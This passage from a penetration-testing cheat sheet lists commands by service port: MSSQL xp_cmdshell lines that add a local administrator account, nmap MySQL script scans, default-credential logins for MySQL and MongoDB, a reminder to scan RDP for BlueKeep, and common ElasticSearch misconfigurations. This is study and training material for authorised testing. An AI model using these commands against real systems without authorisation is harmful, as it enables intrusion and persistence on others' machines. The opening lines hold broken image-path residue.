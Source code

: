 ```
```

You can also add yourself as local admin :)
```
xp_cmdshell “net user angelo ‘password’ /ADD
xp_cmdshell “net localgroup /ADD Administrators angelo”
```

### 3306 - MYSQL
#### Nmap script scan
```
nmap --script mysql* $ip -p $port
```

#### Login
Default login is `root:[no password]`.
```
mysql -h $ip -u <username> -p <password>
```

### 3389 - RDP
```
rdesktop <ip>
```

*Scan for BLUEKEEP!*

### 5432 - PostgresSQL
```
psql -u <user> -h <ip> -p <port> [<db_name>]
```

### 9200,9300 - ElasticSearch
Common Misconfigs:
* No Access Roles or Authentication
* Give unauthenticated users read/write to ElasticSearch, through Kibana or HTTP requests
* HTTP- Accessible API

### 27017 - MongoDB
#### Login
```
mongo -u <user> -p <password> <ip>/<db>
```

Default mongo has no auth.

```
mongo <ip>
```
### Lateral Movement
---
Refer to CrackMapExec section for specific commands.
